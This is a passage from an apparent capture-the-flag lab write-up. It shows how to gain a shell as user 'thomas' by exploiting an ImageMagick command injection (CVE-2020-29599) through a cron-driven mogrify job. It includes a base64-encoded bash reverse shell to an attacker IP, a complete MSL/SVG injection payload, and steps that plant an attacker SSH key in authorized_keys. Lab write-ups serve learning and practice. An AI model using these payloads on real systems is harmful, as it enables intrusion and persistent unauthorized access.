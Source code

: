 This is execute by user with UID 1000, which we can find out that’s user thomas from /etc/passwd:

```bash
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
```

Essentially, what this program does is connvert every image in  /var/www/dev01.artcorp.htb/convert_images/ folder to PNG format, ignore any errors.

Searching up mogrify 2020 exploit lead us to this site:

https://nvd.nist.gov/vuln/detail/CVE-2020-29599

Which talks about a command injection vulnerability it has. This is the full writeup site:

https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

![image.png]({{ site.baseurl }}/assets/meta/image%207.png)

Let’s copy the POC and change the command to get a reverse shell instead;

First create our payload:

```bash
echo -n "bash -i >& /dev/tcp/10.10.16.9/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDEgMD4mMQ==

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDEgMD4mMQ== | base64 -d | bash
```

So our final exploit is:

```bash
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDEgMD4mMQ== | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Let’s save it in the /var/www/dev01.artcorp.htb/convert_images/ dir:

![image.png]({{ site.baseurl }}/assets/meta/image%208.png)

Now we wait.

We now have shell as thomas:

![image.png]({{ site.baseurl }}/assets/meta/image%209.png)

Let’s get a proper shell:

```bash
#Let's create a ssh key on attack host
ssh-keygen -f thomas
cat thomas.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5OmR+EBL02X59Eq2BrpF1vKtyX2ISGLErup+RQ7vHE kali@kali

#Now cat the content and echo it to authorized_keys on target host
cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5OmR+EBL02X59Eq2BrpF1vKtyX2ISGLErup+RQ7vHE kali@kali" >> authorized_keys

#Now we try to login:
chmod 600 thomas #change to secure permission to allow use of private key
```